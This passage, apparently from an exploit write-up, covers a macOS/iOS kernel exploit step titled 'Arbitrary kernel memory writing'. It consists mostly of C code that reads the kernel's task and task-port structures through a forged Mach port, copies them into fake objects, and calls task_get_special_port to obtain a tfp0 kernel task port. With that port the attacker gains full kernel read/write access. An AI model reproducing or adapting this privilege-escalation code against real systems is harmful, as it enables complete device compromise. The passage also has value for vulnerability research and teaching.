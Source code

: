 ### Arbitrary kernel memory writing

After getting the address of `kernel_proc`, we can dump the whole `task` and task port sturcture to user land.

```c
	char *kernel_task_port_dump = malloc(0x1000);
	char *kernel_task_dump = malloc(0x1000);

	uint64_t kernel_task = 0, kernel_itk_self = 0;  // osfmk/kern/task
	
	// check the sturcture to get the following offset 
	r1 = read_kernel(port, faketask, kernel_proc + 0x18);
	r2 = read_kernel(port, faketask, kernel_proc + 0x18 + 0x4);
	memcpy((char *)&kernel_task, &r1, sizeof(uint32_t));
	memcpy((char *)&kernel_task + 4, &r2, sizeof(uint32_t));
	printf("[+] kernel_task=0x%llx, kernel_itk_sself=0x%llx\n", kernel_task, kernel_itk_self);

	r1 = read_kernel(port, faketask, kernel_task + 0xe8);
	r2 = read_kernel(port, faketask, kernel_task + 0xe8 + 0x4);
	memcpy((char *)&kernel_itk_self, &r1, sizeof(uint32_t));
	memcpy((char *)&kernel_itk_self + 4, &r2, sizeof(uint32_t));

	printf("[+] kernel_task=0x%llx, kernel_itk_sself=0x%llx\n", kernel_task, kernel_itk_self);
	
	for (int i = 0; i < 0x1000 / 4; ++i) {
		r1 = read_kernel(port, faketask, kernel_task + i * 4);
		memcpy(kernel_task_dump + i * 4, &r1, sizeof(uint32_t));
	}

	for (int i = 0; i < 0x1000 / 4; ++i) {
		r1 = read_kernel(port, faketask, kernel_itk_self + i * 4);
		memcpy(kernel_task_port_dump + i * 4, &r1, sizeof(uint32_t));
	}

	memcpy(fakeport, kernel_task_port_dump, 0x1000);
	memcpy(faketask, kernel_task_dump, 0x1000);
```

Then we use `task_get_special_port` to clone a send right for one of the task's special ports.

```c
	*(uint64_t *)(((uint64_t)fakeport) + 0x68) = faketask;
	*(uint64_t *)(((uint64_t)fakeport) + 0xa0) = 0xff;

	*(uint64_t *)(((uint64_t)faketask) + 0x2b8) = kernel_itk_self;
	mach_port_t tfp0;

	task_get_special_port(port, 4, &tfp0);
	printf("[+] tfp0 0x%x\n", tfp0);
	fakeport->io_bits = 0;
```
